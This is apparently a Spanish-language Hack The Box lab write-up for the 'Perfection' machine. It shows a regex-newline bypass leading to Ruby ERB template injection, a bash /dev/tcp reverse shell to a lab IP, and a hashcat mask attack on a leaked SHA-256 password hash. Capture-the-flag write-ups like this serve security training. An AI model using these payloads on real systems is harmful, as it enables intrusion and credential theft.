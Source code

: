 #by d4l1

<h1 align="center">Perfection</h1>

<p align="center"><img  src="https://github.com/D4l1-web/HTB/assets/79869523/fc054059-74b6-4363-bb86-72efafd10b9f"></p>

# INTRODUCCIÓN

Perfection es una maquina Linux fácil, en la que contiene una aplicacion web con la funcion de poder calcular notas de estudiantes. La aplicacion web es vulnerable a (SSTI) via regex.

## ENUMERACIÓN

Bienvenidos a esta máquina. Como siempre haremos los dos comandos básicos, comprobar que tenemos conexión y el escaner de puertos.

![image](https://github.com/D4l1-web/HTB/assets/79869523/7e0bd8ef-0907-49d5-b55a-1a110fec0663)

Posteriormente haremos el escaner a ver que encontramos.

![image](https://github.com/D4l1-web/HTB/assets/79869523/1d590945-d1bf-4065-917b-68ae3af286a1)

Como podemos comprobar nos encontramos con dos puertos abiertos el 22 (ssh) y el 80 (http) en un servidor ngnix .

Tenemos más información porque nos dan la versión de ssh.
![image](https://github.com/D4l1-web/HTB/assets/79869523/9059dbab-66b5-4f44-b7dd-5da9f3d85fa0)

### HTTP

Si nos conectamos al servidor web, veremos un "weighted grade calculator" una herramienta pa los alumnos vamos. 

![image](https://github.com/D4l1-web/HTB/assets/79869523/a90ff5e5-7bd4-45a7-85f7-b16a2221ee8f)

Encontramos dos cosas importantes el lenguaje de programación "Ruby" y el framework que utiliza "WEBrick 1.7.0"

![image](https://github.com/D4l1-web/HTB/assets/79869523/774a6134-463a-4047-9e35-48d4bdd6cc9e)

Si nos vamos a la tercera pestaña nos encontramos con una calculadora, vamos a intentar poner datos reales para que no nos de error.

![image](https://github.com/D4l1-web/HTB/assets/79869523/00a3c90b-584f-4750-8e5a-e337a279db22)

Como entenderemos, al tener un boton Sumbit damos por hecho que tiene que ir a algun lado. Con lo cual utilizaremos BurpSuite para pillar la request y ver donde va.

![image](https://github.com/D4l1-web/HTB/assets/79869523/c3f659e9-ccc8-46dd-a334-2d53eb258424)

Mandamos la request que tneemos al Repeater del burp suite. y modificamos la request para ver que respuestas tiene.

![image](https://github.com/D4l1-web/HTB/assets/79869523/46db20a1-dd28-44b4-bc26-6f362d82eec5)

La forma en que nos da el output nos infica que hay un uso de tema, abriendo una posibilidad de un (SSTI). Obviamente en Ruby, utilizaremos un payload muy común en Ruby <%= %> dentro del campo "Category"

![image](https://github.com/D4l1-web/HTB/assets/79869523/3061c4a6-cd47-4189-8cae-ccee74ce4d20)

Vemos que por aqui no.

Ruby tiene el operador  =~

```
irb(main):003:0> "SampleText" =~ /^[a-zA-Z]+$/
=> 0
```
Como vemos, la string "SampleText" bsuca maches de la a-z y en mayuscula.

Sin embargo si nosotros insertamos una nueva linea dentro del input con algun caracter que no machee reglex, como { y intentar ver como interactuar.
```
irb(main):004:0> "SampleText\n{{}}" =~ /^[a-zA-Z]+$/
=> 0
```
Con una nueva línea: 
```
irb(main):008:0> "SampleText{{}}" =~ /^[a-zA-Z]+$/
=> nil
```
Sabiendo esto tenemos un potencial bypsas de Ruby.
```
test
<%= IO.popen("sleep 10").readlines() %>
```
Este payload hace que el servidor ejecture un sleep 10 haciendo que la página se duerma 10 segundos, indicando que funciona correctamente.

Dentro de "repeater" modificamos la request interceptada para incluid nuestro payload dentro de la categoria 1 manualmente incluimos una nueva linea usando URL-encoding.

![image](https://github.com/D4l1-web/HTB/assets/79869523/f028c0c4-5c73-4829-a709-0d645ff09d29)

Como podemos comprobar la página web se duerme durante 10 segundos. Indicando que al injección funciona.

En caso de querer hacer una reverse shell, inyectaremos este payload.

```
Test1
<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").readlines() %>
```
Mientras abrimos obviamente un netcat
```
nc- lvnp 4444
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/6986c51f-cd6f-41dc-a477-cfc04fe44db8)

![image](https://github.com/D4l1-web/HTB/assets/79869523/a802f914-e67d-4c04-a63f-2550ddfbc25f)

Estamos dentro!!

Si queremos una shell mas estable, podemos ejecutar 
```
script /dev/null -c /bin/bash
```

![image](https://github.com/D4l1-web/HTB/assets/79869523/9f85626c-bdea-422c-892f-d80719eb1f1f)

# ESCALA DE PRIVILEGIOS

Primero de todo enumeraremos el sistema

![image](https://github.com/D4l1-web/HTB/assets/79869523/c507ba21-0558-44ed-b84d-7701fad6f07e)

Vemos que estamos dentro del usuario "susan" pero estamos dentro del grupo "sudo" (requiere contraseña) necesitamos encontrar esa contraseña.

## GRUPO SUDO

EL grupo sudo es crucial para los privilegios porque los miembros de este grupo puede ejecutar cualqueir comando que quieran.

Primero de todo enumeraremos a ver si tiene algo dentro de su email

```
ls -la /var/mail
```
Nos encontramos con un archivo vamos a verlo.

![image](https://github.com/D4l1-web/HTB/assets/79869523/5573e43e-ef44-4ba4-a88a-3dfbb8ee7770)

Gracias a esto podemos hacer una especificacion de como va a ser la contraseña, PupilPath es una plataforma online que trackea a los estudiantes.

En el directorio home de susan nos encontramos un archivo llamado "migration" 

![image](https://github.com/D4l1-web/HTB/assets/79869523/7ab742af-c477-456d-9079-a149c30d05ee)

Contiene un .db y esto es importante.

Para enumerar la base de datos, procederemos a sí:

Identificar el tipo de base de datos

```
file pupilpath_credentials.db
```

Abrir la base de datos usando SQLite

```
 sqlite3 pupilpath_credentials.db
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/7c3a34b9-060a-4cf3-901a-7fb70dcb01f5)

Devolver la tabla usuarios

![image](https://github.com/D4l1-web/HTB/assets/79869523/25da8365-c368-46b5-8e41-d79dacc3af33)

```
select * from users;
```
Ahora tenemos el hash de la contraseña de susan y sabemos que es un SHA-256 gracias a hash-identifier

## MASK ATTACK

Se usan para generar palabran parecidas a un patron. Este tipo de contraseñas se hacer cuando sabes exactamente la longitud de la contraseña, deberemos crear una wordlist de 9 digitos y el hash y comprar el hash con los numeros generados

CREAMOS WORDLIST
```
echo "susan_nasus_" > wl
```
CREAMOS EL ARCHIVO DEL HASH DE SUSAN

```
echo "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f" > hash
```

CONSTRUIMOS EL HASHCAT PARA CRACKERA

```
hashcat -m 1400 -a 6 hash wl ?d?d?d?d?d?d?d?d?d -O
```

- -m 1400: Especifica el tipo de hash "SHA-256"
- -a 6: Especifica el tipo de ataque, en este caso, combiene el ataque dodne el candidato en espacios
- hash - El archivo con el hash
- wl - la wordlist
- ?d?d?d?d?d?d?d?d?d : La mascara que queremos representar de 9 dígitos
- -O : Optimia el kernet

Conseguimos la password y conseguimos ser root.

![image](https://github.com/D4l1-web/HTB/assets/79869523/f1fa4809-9193-4ec8-8381-55599da850df)





